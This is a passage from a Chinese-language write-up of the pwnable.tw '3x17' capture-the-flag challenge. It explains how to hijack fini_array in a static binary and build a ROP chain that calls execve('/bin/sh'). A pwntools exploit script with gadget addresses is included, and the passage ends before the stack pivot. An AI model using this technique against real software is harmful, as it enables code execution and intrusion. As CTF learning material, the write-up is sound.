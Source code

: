 ### 思路

> 这条题目还有其他解法，因为用这条题目学习 **fini_array 劫持**就记录这种做法。其他解法：[pwnable.tw_3x17](https://kirin-say.top/2019/02/08/pwnable-tw-3x17/)

静态编译程序只能用它的有东西 getshell 。写 shellcode 估计要 mprotect 给内容加上运行权限绕过 NX 保护；写个系统调用号可行一点。

那就需要用到写入功能函数了，如果需要符合本文学习内容，就需要一个任意地址写的函数，刚好 main 函数就是。现在明确思路：

1. 将 fini_array[1] 覆盖为 main 函数地址；fini_array[0] 覆盖为 \_\_libc_start_fini 地址；

2. 依次向 fini_array + 0x10 写入系统调用号利用代码；

3. 写入完成后，将 fini_array[0] 覆盖为 ``leave|ret``，将栈迁移到 fini_array + 0x10;

> 构建的系统调用命令：syscall(0x3b,addr_of_binsh,0,0)
>
> 相当于：execve(addr_of_binsh,0,0)
>
> 系统调用号查询：https://www.mrskye.cn/archives/168/

### exp

```python
from pwn import *
context.log_level = 'debug'

#p = process("./317")
p = remote("chall.pwnable.tw",10105)
elf = process("./317")

fini_array = 0x4B40F0
main_addr = 0x401B6D
libc_csu_fini = 0x402960
esp = fini_array + 0x10
leave_ret = 0x401C4B
ret = 0x401016
 
rop_syscall = 0x471db5
rop_pop_rax = 0x41e4af
rop_pop_rdx = 0x446e35
rop_pop_rsi = 0x406c30
rop_pop_rdi = 0x401696
bin_sh_addr = 0x4B419A
 
def write(addr,data):
    p.recv()
    p.send(str(addr))
    p.recv()
    p.send(data)
 
def exp():
    # hijack fini_array
    #gdb.attach(p)
    write(fini_array,p64(libc_csu_fini) + p64(main_addr))
 
    # rop chain
    write(bin_sh_addr,"/bin/sh\x00")
    write(esp,p64(rop_pop_rax))
    write(esp+8,p64(0x3b))
    write(esp+16,p64(rop_pop_rdi))
    write(esp+24,p64(bin_sh_addr))
    write(esp+32,p64(rop_pop_rdx))
    write(esp+40,p64(0))
    write(esp+48,p64(rop_pop_rsi))
    write(esp+56,p64(0))
```